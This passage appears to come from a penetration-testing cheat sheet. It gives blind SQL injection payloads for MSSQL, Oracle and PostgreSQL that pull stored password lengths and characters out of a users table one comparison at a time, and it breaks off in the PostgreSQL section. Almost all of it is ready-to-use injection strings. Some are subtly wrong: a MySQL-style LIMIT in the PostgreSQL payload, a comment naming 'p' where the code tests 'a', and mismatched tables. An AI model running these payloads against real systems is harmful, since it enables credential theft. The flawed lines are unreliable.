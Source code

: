 {% tab title="MSSQL" %}
First, retrieve the length of the value (we take password column as example):

```sql
-- True -> 1st password is 9 char
1' AND (SELECT TOP 1 LEN(password) FROM users)=9--

-- True -> 2st password is 9 char
1' AND (SELECT TOP 1 LEN(password) FROM users WHERE password NOT IN(SELECT TOP 1 password FROM admin))=9--
```

Second, retrieve values

```sql
-- If True, the first password's char is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(password, 1, 1))FROM users)=112--

-- If True, the second password's char is a
1'AND (SELECT TOP 1 ASCII(SUBSTRING(password, 2, 1))FROM users)=97--

-- If True, the first char of second password is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(password, 1, 1))FROM users WHERE password NOT IN(SELECT TOP 1 password FROM admin))=112--

-- If True, the second char of second password is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(password, 2, 1))FROM users WHERE password NOT IN(SELECT TOP 1 password FROM admin))=97--
```
{% endtab %}

{% tab title="OracleSQL" %}
First, retrieve the length of the value (we take password column as example):

```sql
1' AND (SELECT LENGTH(password) FROM users OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=9--  #True -> 1st password is 9 char
```

Second, retrieve values

```sql
-- If True, the first password's char is p
1'AND (SELECT ASCII(SUBSTR(password, 1, 1)) FROM users OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=112--

-- If True, the second password's char is a
1'AND (SELECT ASCII(SUBSTR(password, 2, 1)) FROM users OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=97--
```
{% endtab %}

{% tab title="PostgreSQL" %}
First, retrieve the length of the value (we take password column as example):

```sql
1' AND (SELECT LENGTH(password) FROM users LIMIT 0,1)=9--  #True -> 1st password is 9 char
```

Second, retrieve values
